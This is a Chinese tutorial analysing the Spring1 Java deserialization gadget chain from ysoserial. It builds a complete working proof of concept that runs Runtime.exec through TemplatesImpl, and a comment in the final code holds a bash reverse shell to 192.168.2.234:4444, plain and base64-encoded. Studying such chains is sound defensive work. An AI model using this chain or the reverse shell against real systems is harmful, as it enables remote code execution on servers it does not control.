




## 环境准备

JDK应使用JDK version < 8u73，我这里使用的是JDK 8u66，这是因为该攻击链使用了`sun.reflect.annotation.AnnotationInvocationHandler`。

```xml
<!-- https://mvnrepository.com/artifact/org.springframework/spring-core -->
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-core</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.springframework/spring-beans -->
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-beans</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```

这个攻击链是比较绕的，这是因为其中使用了多层动态代理来完成方法调用。动态代理的一般用法是先有一个入口类，当入口类和恶意代码触发类有偏差时(链无法以直接形式触发)，可以通过动态代理间接触发。

这里的先后关系是，需要先找到一个入口类，同时我知道恶意代码类的触发类(`TemplatesImpl`)，然后从入口类再去找可利用的类。这个链肯定也是这么挖出来的，所以在本篇文章的代码分析中，会以入口点入手来分析对应的过程。

在分析此攻击链之前，你需要对`TemplatesImpl`这个类比较了解才行，如果你还并不是很了解的话可以直接阅读我的这篇文章[详解TemplatesImpl](../详解TemplatesImpl/main.md)

如果你对`TemplatesImpl`类比较了解，便知道，当`TemplatesImpl`中的字段被构造为恶意代码时，然后触发`getOutputProperties`或`newTransformer`这两个方法中的任意一个即可导致恶意代码执行。

在这个攻击链就是通过Spring中的某些类来完成触发这两个方法的。

## 代码分析 - 正向

Spring 核心包中的 `org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider` 类实现了 `TypeProvider` 接口，并且是一个可被反序列化的类。

这个类中的代码是这样的：

```java
static class MethodInvokeTypeProvider implements TypeProvider {

    private final TypeProvider provider;

    private final String methodName;

    private final int index;

    private transient Object result;

    public MethodInvokeTypeProvider(TypeProvider provider, Method method, int index) {
        this.provider = provider;
        this.methodName = method.getName();
        this.index = index;
        this.result = ReflectionUtils.invokeMethod(method, provider.getType());
    }

    @Override
    public Type getType() {
        if (this.result instanceof Type || this.result == null) {
            return (Type) this.result;
        }
        return ((Type[])this.result)[this.index];
    }

    @Override
    public Object getSource() {
        return null;
    }
	// 反序列化方法
    private void readObject(ObjectInputStream inputStream) throws ...... {
        // 反序列化恢复默认字段值，(恢复序列化时的provider、methodName、index字段)
        inputStream.defaultReadObject();
        // 从TypeProvider.getType() 中搜索一个叫做 methodName 这个方法名的方法
        // 假设methodName的值为：getOutputProperties，这个就是我们想要调用的方法
        // 那么就是从TypeProvider中搜索getOutputProperties方法
        Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);
        // 调用provider.getType()中的method方法
        this.result = ReflectionUtils.invokeMethod(method, this.provider.getType());
    }
}
```

请先阅读我在`readObject`中留的注释，这样才方便后续的理解......

那么如果我们能让`this.provider.getType()`的结果是一个`TemplatesImpl`对象，那么通过`ReflectionUtils.invokeMethod("getOutputProperties", TemplatesImpl)`即可触发恶意代码。

在构造之前，我们得先知道`this.provider.getType()`返回回来的是个什么东西。

该方法的接口定义如下：

```java
static interface TypeProvider extends Serializable {

    /**
     * Return the (possibly non {@link Serializable}) {@link Type}.
     */
    Type getType();

    /**
     * Return the source of the type or {@code null}.
     */
    Object getSource();
}
```

如果我们想让`getType()`方法执行之后能得到一个`TemplatesImpl`对象。这几乎是不可能的，而Spring1链的挖掘者提供了一种动态代理思路来完成这个构造。

我们需要代理一个`TypeProvider`接口的一个动态代理实现，如果触发这个动态代理的`getType`方法之后能返回一个`TemplatesImpl`对象。

此时，我们可以先按照这个思路构造这样的一段残缺的POC出来了。

```java
public static void main(String[] args) throws Exception {
    // -----------------关注的重点在这儿------------------
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    // 此时我们的xxxxxxx还不知道怎么构建
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, xxxxxxxxx);


    // -----------------这段代码只是为了创建MethodInvokeTypeProvider实例-------------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

这样`provider`属性就是一个看起来实现了`TypeProvider`接口的类了，你可以认为他具备了`getType`接口了 。

然后我们开始构建`xxxxxxxxx`这一段。

我们想`xxxxxxxxx`这个类有一个`getType`方法，同时这个`getType`方法能返回一个`TemplatesImpl`对象。

还是找不到对不对！Spring1的链的作者给的这么做的，使用动态代理类：`sun.reflect.annotation.AnnotationInvocationHandler`，这个动态代理类中的代码是这么构造的：



这个类什么意思呢？

就是构造一个这个类(`sun.reflect.annotation.AnnotationInvocationHandler`)的动态代理对象，假如我要调用这个类的`getType`方法，那么就会触发动态代理对象中的`invoke`方法，此时`invoke`方法中的`Method`这个类型的参数的值就是 `getType`，然后从`this.memeberValues`这个`getType`对应的Object。

所以我们接着在原来残缺的POC上进行构造：

```java
public static void main(String[] args) throws Exception {

    // 因为AnnotationInvocationHandler是一个注解，所以无法通过正常方式new出来
    // 这里是使用反射的方式来进行创建
    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    // 此时我们往这个map塞入一个键为 getType的 xxxxxxxxxx
    // 就能使得在触发动态代理的getType方法时能够返回xxxxxxxxxx这个Object
    // 但此时我们还不知道xxxxxxxxxx该怎么构造
    map.put("getType", xxxxxxxxxx);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

在上边的这份代码中就能让`MethodInvokeTypeProvider`中的`this.provider.getType()`方法了，但是还没有完。

因为`getType()`方法返回的是一个`Type`接口，我们直接把`TemplatesImpl`塞进去是不行的，因为`TemplatesImpl`无法被转换为`Type`接口。

所以现在我们希望一个类既实现了`Type`又实现了`Templates`接口（`getOutputProperties`和`newTransformer`方法都被定义在这个接口中），但很显然这是不可能的。（为什么这里还要实现`Templates`接口呢？这是因为在`MethodInvokeTypeProvider`中我们需要调用这个类的`getOutputProperties`或者`newTransformer`方法

这个问题通过动态代理还是可以解决，我们通过动态代理代理这两个接口就行了。

然后我们继续在上边的残缺POC上加入一个代理了两个接口的动态代理：

```java
public static void main(String[] args) throws Exception {
    // 按理来说，这里的xxxxxxxxxx如果能塞进来一个TemplatesImpl对象，此时我们就能完成攻击链的构造了
    // 很不巧，newProxyInstance的第三个参数是一个必须要实现InvocationHandler接口的动态代理实现类
    // 而TemplatesImpl对象是没有实现这个接口的
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, xxxxxxxxxx);

    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    // 此时map中的Object就是我们实现了Type和Templates这两个接口的实例了
    map.put("getType", typeTemplatesProxy);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

虽然我们还不知道`xxxxxxxxxx`中的代码应该怎么构建。但即便如此，我们给`xxxxxxxxxx`随便赋一个实现了`InvocationHandler`的类就能满足`Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);`这行代码中的需求。

但是后边还有一个关键的一步，就是`ReflectionUtils.invokeMethod(method, this.provider.getType());`

我们看一下`ReflectionUtils.invokeMethod`这个方法是怎么实现的。



OK，然后开始寻找实现了`InvocationHandler`接口的实现类了。

再回头一开始我们构建的残缺POC中。为了构建`xxxxxxxxxx`中的一个代理类，Spring1的作者找到了一个实现了`InvocationHandler`的接口，同时也更好在后续中利用的类，就是`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`这个类。



当我们的`xxxxxxxxxx`中填充的是`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`这个类时，因为我们代理了`Type`和`Templates`这两个接口，所以当触发了`Templates`接口中的方法时，就会触发到这个类中的invoke方法中。

所以再次构建我们这个残缺的POC：

```java
public static void main(String[] args) throws Exception {
        
    // 创建动态代理实例，这个实例用于创建 Type和Templates 这两个接口的动态代理
    Class<?> objectFactoryDelegatingInvocationHandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
    Constructor<?> ofdihCtor = objectFactoryDelegatingInvocationHandler.getDeclaredConstructors()[0];
    ofdihCtor.setAccessible(true);
    // 此时我们还不知道这个objectFactory应该怎么构造，所以用xxxxxxxxxx来代替
    InvocationHandler ofpInvocationHandlerInstance = (InvocationHandler)ofdihCtor.newInstance(xxxxxxxxxx);
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, ofpInvocationHandlerInstance);

    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    map.put("getType", typeTemplatesProxy);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

然后在`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`类中的`invoke`方法中，调用`method.invoke(this.objectFactory.getObject(), args);`方法。

现在method参数是可控的、args也是我们想要的空参，所以现在就差一个`objectFactory.getObject()`，如果能返回一个`TemplatesImpl`对象，那就爽了。

如果一个类实现了`ObjectFactory<?>`这个接口，同时这个类的getObject方法能返回一个`TemplatesImpl`对象。

哎，你记不记得我们一开始提到的，`sun.reflect.annotation.AnnotationInvocationHandler`这个动态代理的实现类，如果我调用这个动态代理类中的任意方法(如`test`)，我只需要把对应的`memberValues`这个Map中的内容改成这个样子 `Map["test", new Object()];`。

这样的话在调用`test`方法后，就能调用到`AnnotationInvocationHandler`中的invoke方法，然后在这个方法中，就会把 `new Object()`返回给调用者。

同时要记得我们要代理的是一个`ObjectFactory<?>`接口，有了这些关键点后，我们就能构造一个完整的POC了：

```java
public static void main(String[] args) throws Exception {
    // 因为有两个地方都需要用到sun.reflect.annotation.AnnotationInvocationHandler，所以这里把这个代码提到前边
    // 以便于两个地方都能调用这个类的构造方法
    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    // 在这里我们创建一个AnnotationInvocationHandler的实例
    // 其中getObject中的xxxxxxxxxx就是我们的TemplatesImpl恶意代码实现类
    Map<String, Object> templatesImpl = new HashMap<>();
    templatesImpl.put("getObject", xxxxxxxxxx);
    InvocationHandler templatesImplInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, templatesImpl);
    // 同时对AnnotationInvocationHandler创建一个动态代理，这个代理用来代理一个ObjectFactory接口
    ObjectFactory objectFactoryProxy = (ObjectFactory) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{ObjectFactory.class}, templatesImplInvocationHandler);

    Class<?> objectFactoryDelegatingInvocationHandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
    Constructor<?> ofdihCtor = objectFactoryDelegatingInvocationHandler.getDeclaredConstructors()[0];
    ofdihCtor.setAccessible(true);
    InvocationHandler ofpInvocationHandlerInstance = (InvocationHandler)ofdihCtor.newInstance(objectFactoryProxy);
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, ofpInvocationHandlerInstance);


    Map<String, Object> map = new HashMap<>();
    map.put("getType", typeTemplatesProxy);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

这份POC代码已经是完整的了，但是为了验证效果，我们需要把`TemplatesImpl`进行补全，同时补全用于验证效果的序列化和反序列化方法。

## 完整POC

在经过了上边分析和POC补全过程后，于是你就得到了和ysoserial中的Spring1攻击链一样的代码，让我们运行这份代码看看效果：

```java
package spring;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.springframework.beans.factory.ObjectFactory;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

public class Spring1 {
    private static final String serialFileName = "demo.ser";

    public static void main(String[] args) throws Exception {
        // 因为有两个地方都需要用到sun.reflect.annotation.AnnotationInvocationHandler，所以这里把这个代码提到前边
        // 以便于两个地方都能调用这个类的构造方法
        Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
        aihCtor.setAccessible(true);

        Map<String, Object> templatesImpl = new HashMap<>();
        templatesImpl.put("getObject", genTemplates());
        InvocationHandler templatesImplInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, templatesImpl);
        ObjectFactory objectFactoryProxy = (ObjectFactory) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{ObjectFactory.class}, templatesImplInvocationHandler);

        Class<?> objectFactoryDelegatingInvocationHandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdihCtor = objectFactoryDelegatingInvocationHandler.getDeclaredConstructors()[0];
        ofdihCtor.setAccessible(true);
        InvocationHandler ofpInvocationHandlerInstance = (InvocationHandler)ofdihCtor.newInstance(objectFactoryProxy);
        Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, ofpInvocationHandlerInstance);


        Map<String, Object> map = new HashMap<>();
        map.put("getType", typeTemplatesProxy);
        InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
        Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


        // -----------------下边的这段代码就不用关注了-----------------
        Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
        mitpCtor.setAccessible(true);
        // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
        final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
        final Field field = mitp.getClass().getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(mitp, "getOutputProperties");

        // 调用序列化方法把构造的MethodInvokeTypeProvier对象写入序列化文件
        serialize(mitp);
        // 从序列化文件中读取对象
        unSerialize();

    }
	
    public static void serialize(Object obj)throws Exception {
        FileOutputStream fos = new FileOutputStream(serialFileName);
        ObjectOutputStream oos = new ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.flush();
        oos.close();
        fos.close();
    }
    public static void unSerialize() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }
    public static TemplatesImpl genTemplates() throws Exception {
        // bash -c {echo,bash -i >& /dev/tcp/192.168.2.234/4444 0>&1}|{base64,-d}|{bash,-i}
        // bash -c {echo,<base64反弹shell>}|{base64,-d}|{bash,-i}
        // String shellcode = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuMjM0LzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}";
        String shellcode = "calc";
        String executeCode = "Runtime.getRuntime().exec(\"" + shellcode + "\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates, new TransformerFactoryImpl());

        return templates;
    }
}
```

代码被成功执行，计算器被弹出：



## 攻击链

下边的攻击链来着于 ysoserial的Spring1中的注释，标注的确实非常清晰，我就不修改了

* ObjectInputStream.readObject()
  * SerializableTypeWrapper.MethodInvokeTypeProvider.readObject()
    * SerializableTypeWrapper.TypeProvider(Proxy).getType()
      * AnnotationInvocationHandler.invoke()
        * HashMap.get()
    * ReflectionUtils.findMethod()
    * SerializableTypeWrapper.TypeProvider(Proxy).getType()
      * AnnotationInvocationHandler.invoke()
        * HashMap.get()
    * ReflectionUtils.invokeMethod()
      * Method.invoke()
        * Templates(Proxy).newTransformer()
          * AutowireUtils.ObjectFactoryDelegatingInvocationHandler.invoke()
            * ObjectFactory(Proxy).getObject()
              * AnnotationInvocationHandler.invoke()
                * HashMap.get()
            * Method.invoke()
              * TemplatesImpl.newTransformer()
                *  TemplatesImpl.getTransletInstance()
                  * TemplatesImpl.defineTransletClasses()
                    * TemplatesImpl.TransletClassLoader.defineClass()
                      * Pwner*(Javassist-generated).<static init>
                        * Runtime.exec()